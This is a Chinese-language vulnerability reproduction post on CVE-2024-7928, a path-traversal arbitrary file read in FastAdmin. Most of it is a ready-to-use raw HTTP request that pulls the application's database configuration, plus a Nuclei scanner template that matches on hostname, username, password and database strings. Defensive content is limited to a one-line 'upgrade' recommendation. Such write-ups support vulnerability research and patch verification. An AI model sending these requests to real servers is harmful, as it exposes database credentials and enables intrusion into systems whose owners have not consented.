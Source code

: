 #  【漏洞复现】FastAdmin 任意文件读取漏洞（CVE-2024-7928）   
紫色皓月  皓月的笔记本   2024-10-02 16:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。  
  
0X01   
简介  
  
FastAdmin基于ThinkPHP强大的命令行功能扩展了一系列命令行功能，可以很方便的一键生成CRUD、生成权限菜单、压缩打包CSS和JS、启用禁用插件等功能。  
  
  
漏洞编号：  
  
CVE-2024-7928  
  
  
影响范围：  
  
FastAdmin  <
1.3.4.20220530  
  
  
复现环境：  
  
FastAdmin 1.0.0.20181031  
  
  
0X02   
漏洞复现  
  
POC：  
```
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: 192.168.31.133
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4axEiaIyhaPJY2xPrXicxPhJO5VlzUYnXPKJg2jEByJk0pg0LwM9tcbm6lCpMJMXeziaDJlxNiaR3plhlu2jtZCia0Q/640?wx_fmt=png&from=appmsg "")  
  
Nuclei：  
```
id: FastAdmin-renyiwenjianduqu-CVE-2024-7928

info:
  name: FastAdmin 任意文件读取漏洞-CVE-2024-7928
  author: 紫色皓月
  severity: high
  description: FastAdmin 任意文件读取漏洞
  tags: CVE-2024-7928,2024,FastAdmin,任意文件读取

requests:
  - raw:
    - |
      GET /index/ajax/lang?lang=../../application/database HTTP/1.1
      Host: {{Hostname}}
      Cache-Control: max-age=0
      Upgrade-Insecure-Requests: 1
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
      Accept-Encoding: gzip, deflate, br
      Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
      Connection: keep-alive

    req-condition: true
    matchers:
      - type: word
        words:
          - 'hostname'
          - 'username'
          - 'password'
          - 'database'
        condition: and
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4axEiaIyhaPJY2xPrXicxPhJO5VlzUYnXPiaF6TlEicfc6I0LobY7tnZmiaaSqXqQMXu9qticN2iamKc95X6iaRHzBjlEA/640?wx_fmt=png&from=appmsg "")  
  
  
0X03 修复建议  
  
升级至安全版本！  
  
  
0X04 写在最后  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
